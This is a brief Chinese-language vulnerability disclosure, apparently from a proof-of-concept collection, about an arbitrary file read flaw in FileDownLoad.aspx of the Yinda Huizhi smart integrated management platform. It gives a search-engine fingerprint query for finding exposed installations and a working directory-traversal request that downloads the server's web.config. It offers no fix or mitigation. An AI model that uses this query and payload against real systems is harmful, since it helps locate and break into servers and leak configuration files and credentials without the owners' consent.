 # 银达汇智 智慧综合管理平台 FileDownLoad.aspx 任意文件读取漏洞

## 漏洞描述

银达汇智 智慧综合管理平台 FileDownLoad.aspx 存在任意文件读取漏洞，通过漏洞攻击者可下载服务器中的任意文件

## 漏洞影响

```
银达汇智 智慧综合管理平台
```

## 网络测绘

```
"汇智信息" && title="智慧综合管理平台登入"
```

## 漏洞复现

登陆页面

![image-20220525150952244](./images/202205251509315.png)

验证POC

```
/Module/FileManagement/FileDownLoad.aspx?filePath=../../web.config
```

![image-20220525151256759](./images/202205251512861.png)